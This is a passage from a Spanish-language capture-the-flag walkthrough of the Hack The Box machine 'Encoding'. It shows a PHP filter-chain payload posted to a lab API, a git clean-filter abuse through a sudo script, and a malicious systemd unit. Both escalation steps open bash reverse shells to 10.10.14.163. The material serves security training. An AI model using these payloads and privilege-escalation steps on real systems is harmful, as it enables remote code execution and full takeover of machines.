869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(base64.b64decode(json.loads(response.text)["data"]).decode("latin-1"))
```

----
# svc

Nos fijamos si **www-data** tiene permitido ejecutar algún comando como otro usuario mediante el comando `sudo -l`:

```bash
www-data@encoding:~/image/actions$ sudo -l
sudo -l
Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
```

`git-commit.sh`

```bash
#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify
fi
```

Al analizar el archivo que podemos ejecutar, vemos que podemos commitear en el repositorio visto anteriormente.
Encontré este [informe](https://medium.com/geekculture/how-to-protect-your-filesystem-from-git-5f17b597bb68) que muestra una vulnerabilidad de `git`. También este [otro](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-git-privilege-escalation/) que muestra como explotarlo.

```bash
www-data@encoding:~/image/scripts$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.163/4445 0>&1"' > /tmp/revshell
www-data@encoding:~/image/scripts$ chmod +x /tmp/revshell
www-data@encoding:~/image/scripts$ cd ..
www-data@encoding:~/image$ git init
Reinitialized existing Git repository in /var/www/image/.git/
www-data@encoding:~/image$ echo '*.php filter=indent' > .git/info/attributes
www-data@encoding:~/image$ git config filter.indent.clean /tmp/revshell
www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
```

Nos ponemos en escucha en el puerto 4445 y obtenemos una **Reverse shell** como **svc** junto con la flag de `user.txt`.

----
# root

Nos fijamos si **svc** tiene permitido ejecutar comandos como **root** mediante el comando `sudo -l`:

```bash
svc@encoding:/var/www/image$ sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
```

Efectivamente, puede ejecutar `/usr/bin/systemctl restart *` sin proporcionar ninguna contraseña.
De vuelta, podemos ver cómo explotarlo [acá](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/)

Metemos el siguiente payload en `/etc/systemd/system/exploit.service` y lo ejecutamos con `sudo /usr/bin/systemctl restart exploit` previo habernos puesto en modo escucha por el puerto **4446**.

```
[Unit]
This is an example service.

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.163/4446 0>&1'

[Install]
WantedBy=multi-user.target
```

Y listo obtenemos una **shell** como **root** :).

----
